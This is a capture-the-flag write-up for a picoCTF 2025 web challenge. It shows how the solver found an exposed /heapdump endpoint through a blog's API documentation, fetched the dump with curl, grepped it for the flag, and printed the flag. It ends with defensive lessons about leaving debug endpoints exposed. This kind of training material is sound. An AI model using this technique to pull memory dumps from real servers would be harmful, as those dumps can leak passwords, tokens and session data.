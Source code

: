 # 🧩 Challenge Description
Explore a web application and find an endpoint that exposes a file containing a hidden flag. The application is a blog where one of the articles discusses API documentation. The goal is to find a file generated from the server’s memory that contains the flag.

A heap dump is a snapshot of a program’s memory (specifically, the heap section) at a particular point in time.
It typically contains:

## 📦 What’s Inside a Heap Dump?
Objects in memory: All the variables, strings, arrays, and data structures currently held.
References: Which object points to what (think of it like a web of connections).
Classes and metadata: Information about the type of each object.
Possibly sensitive data: Like passwords, tokens, flags (as you saw!), and session information.
## 🧠 Why Is It Useful?
For debugging memory leaks — you can see what’s not getting freed.
For performance analysis — spot which objects are hogging memory.
For security analysis — exposed heap dumps can reveal sensitive information.
# 🔍 Step-by-Step Solution

Clicking on the #API Documentation-link gives us the following information about the /heapdump endpoint

Access the endpoint
We can use curl to access the /headdump endoint
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2025/Web_Exploitation/head-dump]
└─$ curl http://verbal-sleep.picoctf.net:55492/heapdump   
{"snapshot":{"meta":{"node_fields":["type","name","id","self_size","edge_count","trace_node_id"],"node_types":[["hidden","array","string","object","code","closure","regexp","number","native","synthetic","concatenated string","sliced string","symbol","bigint"],"string","number","number","number","number","number"],"edge_fields":["type","name_or_index","to_node"],"edge_types":[["context","element","property","internal","hidden","shortcut","weak"],"string_or_number","node"],"trace_function_info_fields":["function_id","name","script_name","script_id","line","column"],"trace_node_fields":["id","function_info_index","count","size","children"],"sample_fields":["timestamp_us","last_assigned_id"],"location_fields":["object_index","script_id","line","column"]},"node_count":92685,"edge_count":389044,"trace_function_count":0},
"nodes":[9,1,1,0,314,0
,9,2,3,0,23,0
,9,3,5,0,1,0
,9,4,7,0,135,0
,9,5,9,0,555,0
,9,6,11,0,75,0
,9,7,13,0,0,0
,9,8,15,0,0,0
,9,9,17,0,241,0
<---snip--->
```
Get the flag  
This returns A LOT of information so let's grep for the flag.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2025/Web_Exploitation/head-dump]
└─$ curl -s http://verbal-sleep.picoctf.net:55492/heapdump | grep -oE 'picoCTF{.*}'
```
picoCTF{Pat!3nt_15_Th3_K3y_388d10f7}

#  🧠  Conclusion of the Challenge
Developers accidentally exposed a heap dump on a live website.

You used your knowledge to discover the exposed endpoint and analyze the heapdump file.

You found a hidden flag inside the dump — proving that memory dumps must never be made public.

You learned how attackers could exploit misconfigured APIs or forgot


## 🧠 Key Takeaways
Aspect	What You Learned  
🔍 Reconnaissance	Explore the website fully, including hidden links like /api-docs/.  
⚙️ Swagger/API Docs	Swagger UI can unintentionally expose internal or debug endpoints.  
🧠 Heap Dump	A heap dump is a snapshot of server memory that can contain sensitive data such as flags, passwords, tokens, etc.  
🛠️ Command-Line Tools	Tools like curl, grep, and strings are powerful for finding valuable data in large responses.  
🚨 Security Flaws	Exposing debug tools like /heapdump in a live environment is a serious security vulnerability.  
